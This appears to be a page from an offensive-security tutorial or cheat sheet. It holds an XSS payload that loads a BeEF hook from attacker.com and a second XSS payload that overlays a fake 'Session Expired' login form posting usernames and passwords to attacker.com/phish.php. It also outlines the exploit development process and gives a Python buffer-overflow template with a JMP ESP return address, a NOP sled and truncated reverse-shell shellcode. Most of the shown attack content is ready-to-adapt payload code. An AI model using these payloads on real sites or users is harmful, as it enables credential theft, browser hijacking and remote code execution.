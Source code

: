 **BeEF Hook Integration:**

```jsx
<script src="<http://attacker.com:3000/hook.js>"></script>

```

**Phishing via XSS:**

```jsx
<script>
// Create fake login form
document.body.innerHTML = `
<div style="position:fixed;top:50%;left:50%;transform:translate(-50%,-50%);">
    <h2>Session Expired - Please Login</h2>
    <form action="<http://attacker.com/phish.php>" method="POST">
        <input type="text" name="username" placeholder="Username"><br>
        <input type="password" name="password" placeholder="Password"><br>
        <input type="submit" value="Login">
    </form>
</div>`;
</script>

```


### Exploit Development Process

#### Research Phase

1. **Target identification**
    - Choose specific application/service
    - Version enumeration
    - Known vulnerability research
2. **Vulnerability analysis**
    - Static code analysis
    - Dynamic testing (fuzzing)
    - Reverse engineering
3. **Proof of concept development**
    - Minimal working exploit
    - Demonstrate impact
    - Document steps for reproduction

#### Development Tools & Languages

**Python for exploit development:**

- Excellent for network protocols
- Rich libraries (pwntools, requests, struct)
- Quick prototyping capabilities

**Example Python buffer overflow structure:**


```python
import socket
import struct

# Basic exploit template
target_ip = "192.168.1.100"
target_port = 9999

# Craft payload
padding = "A" * 146  # Offset to return address
eip = struct.pack("<I", 0x625011af)  # JMP ESP address
nop_sled = "\x90" * 16
shellcode = "\xfc\x48\x83\xe4..."  # Reverse shell code

payload = padding + eip + nop_sled + shellcode
```